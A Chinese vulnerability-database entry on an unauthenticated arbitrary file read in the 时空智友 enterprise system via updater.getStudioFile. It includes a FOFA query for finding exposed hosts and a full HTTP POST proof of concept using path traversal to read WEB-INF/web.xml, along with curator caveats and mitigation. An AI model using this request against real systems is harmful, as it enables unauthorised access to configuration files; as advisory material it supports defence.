

# 时空智友 updater.getStudioFile文件读取

## 条目说明

- 对象与具体问题：时空智友；updater.getStudioFile文件读取
- 版本、配置及部署条件：无版本，Windows混合路径
- 认证与权限前提：声称未授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- Content-Type application/json但体是未引号原始路径，需说明接口实际文本读取
- FOFA截断，结果只图，缺根因/可读范围/修复
- 不要与用友时空KSOA混产品

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

时空智友企业信息管理系统 updater.getStudioFile 存在任意文件读取漏洞，未授权攻击者可读取敏感文件。

## 影响版本

时空智友企业信息管理系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA： body="继续登录将挤掉原登录设备"

POC/EXP：

```http
POST /formservice?service=updater.getStudioFile HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json

..\..\WEB-INF/web.xml
```





## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
